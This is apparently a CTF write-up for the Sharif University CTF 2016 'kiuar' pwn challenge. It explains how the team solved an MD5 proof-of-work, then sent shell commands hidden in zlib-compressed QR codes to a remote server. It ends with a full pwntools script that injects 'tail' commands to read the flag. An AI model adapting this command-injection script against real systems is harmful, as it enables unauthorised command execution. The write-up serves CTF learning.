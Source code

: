 ```yaml
---
layout: post
title:  "Sharif University CTF 2016: kiuar (pwn 200)"
author: skogler
categories: writeup
---
```


* **Category:** pwn
* **Points:** 200
* **Description:**

```
telnet ctf.sharif.edu 12432
Trying 213.233.175.130...
Connected to ctf.sharif.edu.
Escape character is '^]'.
Welcome to Sharif blackbox challenge :)
Proof of work: Are you ready?
Give me a 32-bit hex integer, whose leftmost 22 bits of its MD5 is 1000001010110000011101.
You have 60 seconds to reply.
```

## Write-up

When connecting to the given server address, it would present us with the above
task. The challenge was to compute the MD5 of a 32-bit integer so that the
leftmost 22 bit of the MD5 would match the given value. The bits to match
changed every time a new connection is established, but the length was fixed.
The server would also reject any input with less than 5 characters.

Our approach was to just loop over all integers and calculate MD5 hashes until
one matches the given bits.

This seemed quite easy at first, but the server would not accept my computed
values. Thankfully, my colleague did interpret the task differently; he found
out that we needed to compute the MD5 of the *hex string representation* of the
32-bit integer, so something like this:

```python
result_md5 = hashlib.md5(hex(i))
```

This finally worked, which brought us the next step of the challenge. We got
these bytes from the server:

```
00000000  78 9c 0b 4e  cd 4b 51 a8  cc 2f 2d 52  08 0c 52 48  │x··N│·KQ·│·/-R│··RH│
00000010  ce 4f 49 b5  e2 8a cc 2f  55 c8 48 2c  4b 55 30 34  │·OI·│···/│U·H,│KU04│
00000020  50 28 4e 4d  ce cf 4b 29  56 28 c9 57  28 4a 2d c8  │P(NM│··K)│V(·W│(J-·│
00000030  a9 d4 e3 02  00 9b f3 10  54                        │····│····│T│
```

We saved this to a file and ran the ```file``` tool on it:

```
result: zlib compressed data
```

Nice, so just run ```zlib.decompress``` on it in python:

```
Send your QR code:
You have 10 seconds to reply.
```

It seemed we could send some data hidden within a QR code. However, sending
this code was not quite easy. The first problem was that the server would only
accept messages compressed with zlib:


```
Your data is not in proper compressed format :(
```

This was solved by compressing the message using zlib. However, we also needed
to get a message of exactly 200 bytes, since the server would reject everything
else. To solve this, we compressed the payload first, then padded the message
with zero bytes so it had a  length of exactly 200.

The hard part was getting a QR code with a size smaller than 200 bytes. It
seems the typical tools to generate QR codes do not optimize for size at all.
After a long time of trial and error, we ended up with the following command to
generate the PNG QR code:

```
qrencode -s 1 -v 1 -m 1 -o test.png "<payload>" && optipng test.png
```

If the length of the payload was not too long (I think about 10 bytes), this
would suffice.  It also took us quite a while to find out that the server would
only recognize the QR code if it had a margin of at least 1 pixels.

When finally succeeded, we found out that we could send shell commands inside the QR code.
There was a file called flag in the server's working directory, which we needed to read:

```
Flag: The output of your command is large, I only send 18 bytes of it :P 
    SharifCTF{b5ffb0e6
```

Since the organizers did not allow us to just cat the file, we needed to run
the script multiple times and inject tail commands with different offsets to
reconstruct the flag manually.

Finally, here is the script we used to get the flag:

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

import ctypes
import struct
import hashlib
import sys
import zlib
import os
from pwn import *

context.log_level = 'info'


commands = [
        "tail -c 18 flag",
        "tail -c 36 flag",
        "tail -c 54 flag",
        ]

results = list()

for command in commands:
    os.system('qrencode -s 1 -v 1 -m 1 -o test.png "' + command + '" && optipng test.png')
    zcode = ""

    with open('test.png') as qrfile:
        qrbytes = qrfile.read()
        zcode = zlib.compress(qrbytes)
        print("len: {}".format(len(zcode)))
        zcode = zcode.ljust(200, '\x00')
        print("len: {}".format(len(zcode)))
        if len(zcode) > 200:
            sys.exit()

    conn = remote('ctf.sharif.edu', 12432)
    conn.recvline()
    conn.recvline()
    challenge = conn.recvline()

    data = ctypes.create_string_buffer(4)
    m = hashlib.md5()

    target_bits = challenge.split(" ")[-1][:-2]

    conn.clean_and_log()

    lower_bound = 0x100000
    upper_bound = 2**32

    for i in xrange(lower_bound, upper_bound):
        integer_hex         = hex(i)
        integer_hex_encoded = integer_hex.encode('utf-8')
        integer_hex_md5 = hashlib.md5()
        integer_hex_md5.update(integer_hex_encoded)

        md5 = integer_hex_md5.hexdigest()

        binary = bin(int(md5, 16))[2:]

        if binary.startswith(target_bits):
            #print("Hash {}".format(md5))
            conn.send(hex(i))
            break

    conn.recvline()
    result = conn.recv()

    with open('test.png') as qrfile:
        qrbytes = qrfile.read()
        zcode = zlib.compress(qrbytes)

        zcode = zcode.ljust(200, '\x00')
        conn.send(zcode)

    conn.recvline()
    res = conn.recv()
    log.info(res)

    results.append(res)

    conn.close()

log.info(",\n".join(results))
```

